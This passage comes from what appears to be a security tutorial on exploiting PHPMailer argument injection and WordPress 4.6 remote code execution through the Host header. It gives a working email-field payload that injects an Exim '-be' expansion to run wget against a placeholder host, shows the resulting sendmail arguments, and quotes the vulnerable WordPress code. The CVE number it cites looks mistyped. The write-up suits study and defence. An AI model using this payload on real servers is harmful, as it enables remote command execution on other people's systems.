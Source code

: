 Fortunately,LegalHackers studied ways to bypass this blockage using as reference the email RFC where we should be able to use spaces (This is very well explained by them, the link in the Documentation Section). They have been give us information in how to bypass 'pcre8'. If other filter pattern is used the exploit will not work.

```bash
Payload:
email@dd(tmp1 -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}} tmp2)
Commandeugger:
Received: /usr/sbin/sendmail
Received: -femail@dd(tmp1
Received: -be
Received: ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
Received: tmp2)
```

Finally we have a working exploit for CVE-2016-1033, when attacker has access to the emailFrom input.


## Wordpress 4.6 Remote Code Execution

When a common used library as PHPMailer get compromised, a lot of software could get bitten by the exploit. Wordpress 4.6 was one of them. In this last section we are going to exploit it, revieweing the source code of Wordpress to understand exactly what is going on.
For this, no PoC have been created, because we will use directly a vulnerable version of wordpress instead. Pre-requisites for this to work are [here]().

Following the existing RCE documentation, we know that the vulnerable parameter is the Hostname HTTP Header in the "lostpassword" function of wordpress 4.6

wordpress4.6/wp-includes/pluggable.php:

```php

	if ( !isset( $from_email ) ) {
		// Get the site domain and get rid of www.
		$sitename = strtolower( $_SERVER['SERVER_NAME'] );
		if ( substr( $sitename, 0, 4 ) == 'www.' ) {
			$sitename = substr( $sitename, 4 );
		}

		$from_email = 'wordpress@' . $sitename;
	}

[...]
	
	$phpmailer->setFrom( $from_email, $from_name);
```
As we can see, wht $from_email is being crafted using the 'SERVER_NAME' that came actually from the mentioned HTTP Header.

Natural thing to do will be testing the same payload we did in previous PoC but erasing the "email@" part from it. Let's see what happens (we need to use some sript or proxy tool):
